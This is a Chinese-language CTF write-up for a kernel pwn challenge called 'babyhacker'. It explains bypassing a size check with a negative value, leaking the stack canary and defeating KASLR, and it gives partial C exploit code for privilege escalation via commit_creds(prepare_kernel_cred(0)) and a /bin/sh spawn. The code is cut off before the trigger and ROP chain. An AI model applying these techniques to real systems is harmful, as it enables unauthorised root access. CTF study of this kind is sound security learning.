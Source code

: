 ﻿# 20200307_gxzyctf

标签（空格分隔）： pwn

---
[toc]

## babyhacker

### 解题思路
本题驱动开了`NX`和`canary`保护，漏洞在于传递数据的`unsigned __int16`属性的`buffersize`，所以赋值时的`signed __int`判断可以被负数绕过。

先获得`canary`的值，然后把`rop`链传递过去，由于开了`kaslr`保护，但同时可以获取`proc/kallsyms`里的函数地址，通过`ROPgadet`获取由`bzImage`解压出来的`vmlinux`中的`gadget`，提权成功。

一开始保存的寄存器状态有可能有问题，由于链接时间较短，使用`zip`压缩完后再上传解压

### exp
```C
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <string.h>
#include <sys/types.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <string.h>

#define MMAP_BASE 0x2000000
#define MMAP_SIZE 0x100000

void get_shell() {
    system("/bin/sh");
}

size_t vmlinux_base = 0;
size_t raw_vmlinux_base = 0xffffffff81000000;
unsigned long commit_creds = 0;
unsigned long prepare_kernel_cred = 0;

void get_root() {
    char* (*pkc)(int) = prepare_kernel_cred;
    void (*cc)(char*) = commit_creds;
    (*cc)((*pkc)(0));
}

size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
	__asm__(
        "movq %%cs, %0;"
	    "movq %%ss, %1;"
		"movq %%rsp,%2;"
		"pushfq;"
		"popq %3;"
        :"=r"(user_cs),"=r"(user_ss),"=r"(user_sp),"=r"(user_rflags)
        :
        :"memory"
		);
	puts("[*]status has been saved.");
}

```

  [1]: https://xz.aliyun.com/t/6067
  [2]: http://static.zybuluo.com/leafish/jpp8avpsr27dzae7r1d9x6gz/image_1e693d72u1enl1cneadj3h41tng9.png
  [3]: https://kirin-say.top/2020/03/10/Kernoob-kmalloc-without-SMAP/
  [4]: http://static.zybuluo.com/leafish/evsddfq2iq6gwhck86bsdr0w/image_1e6bda8am1d31h36ubj1ul83079.png
  [5]: http://static.zybuluo.com/leafish/55my5icnzf3lnwnm1bu6zlyb/image_1e6becjm0hvr1bct1odg13ugbv4m.png
  [6]: http://static.zybuluo.com/leafish/413oe16gqt1ggrad5ho0hufa/image_1e6bh0sc91jdg1vir1b0urmt11lu13.png
  [7]: http://static.zybuluo.com/leafish/vyz71tvzk27vi1xlkuhub29q/image_1e6arvrf11sodt53eamhob163vm.png
  [8]: http://static.zybuluo.com/leafish/ull0t1d5zkiolnqkyd6jvrkm/image_1e3cegctudb774e9tl15d1n0q9.png
  [9]: http://static.zybuluo.com/leafish/fiw8hzlguct6w4mk2xzb4jsj/image_1e3ef7h6d10v61al4159f8p46k3m.png
  [10]: http://static.zybuluo.com/leafish/dm87f6we8lbvz08xgsksoubf/image_1e3efov151ckqmngalh1loi19v713.png
  [11]: http://static.zybuluo.com/leafish/a6m91ioa9l9xd0jcuct6cu5h/image_1e3eeat3mq56rv9bqm1udtk599.png
  [12]: http://static.zybuluo.com/leafish/0d4ntjurjrxcbf5mi1okz5te/image_1e3mch0hn1e5o1fqo1g8egom34h9.png
  [13]: http://static.zybuluo.com/leafish/noeaxbpb7ladjp6end8c8d6n/image_1e3p36h6gntr11qi1sfv89qpc09.png
  [14]: http://static.zybuluo.com/leafish/0wh1s7ttqasjk60vvbvdh5ar/image_1e3p39t88h7a1gno1rvi1ggcccpm.png
  [15]: http://static.zybuluo.com/leafish/5u93lj5peuib5v66grw07awr/image_1e3n3ma421g1q1ojd1516ikv1cok9.png
  [16]: http://static.zybuluo.com/leafish/jg93j2ppjpkfqnyutnf5b9to/image_1e3n5fcbj1o5c1omaco918i266km.png
  [17]: http://static.zybuluo.com/leafish/ej95qlwlrxb0h06h8rkycavy/image_1e3n5kj5k4391ulu1v4k12o1hfb13.png
  [18]: http://static.zybuluo.com/leafish/sp7r36az52z5p9andxjf3v5l/image_1e3n6oo8v1us91vcd31n13r31u2j1g.png
  [19]: http://static.zybuluo.com/leafish/vn0zh475yn0thyihbub3v4cm/image_1e3n7co4su6t1j3sb7m1jfl1k0h1t.png
  [20]: http://static.zybuluo.com/leafish/x7jpyo5qpj84b13dbcem1dtd/image_1e3n9dk8m1e5h9fp16edt7l1c042a.png